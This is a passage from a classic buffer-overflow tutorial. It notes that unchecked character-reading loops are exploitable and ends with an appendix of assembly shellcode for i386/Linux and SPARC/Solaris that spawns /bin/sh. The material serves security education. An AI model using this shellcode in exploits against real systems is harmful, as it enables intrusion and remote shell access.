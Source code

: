 Another usual programming construct we find is the use of a while loop to
read one character at a time into a buffer from stdin or some file until the
end of line, end of file, or some other delimiter is reached.  This type of
construct usually uses one of these functions: getc(), fgetc(), or getchar().
If there is no explicit checks for overflows in the while loop, such programs 
are easily exploited.

To conclude, grep(1) is your friend.  The sources for free operating
systems and their utilities is readily available.  This fact becomes quite
interesting once you realize that many comercial operating systems utilities
where derived from the same sources as the free ones.  Use the source d00d.

---

>Appendix A - Shellcode for Different Operating Systems/Architectures

>i386/Linux

        jmp    0x1f
        popl   %esi
        movl   %esi,0x8(%esi)
        xorl   %eax,%eax
		movb   %eax,0x7(%esi)
        movl   %eax,0xc(%esi)
        movb   $0xb,%al
        movl   %esi,%ebx
        leal   0x8(%esi),%ecx
        leal   0xc(%esi),%edx
        int    $0x80
        xorl   %ebx,%ebx
        movl   %ebx,%eax
        inc    %eax
        int    $0x80
        call   -0x24
        .string \"/bin/sh\"

>SPARC/Solaris

		sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
        ta      8
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      8
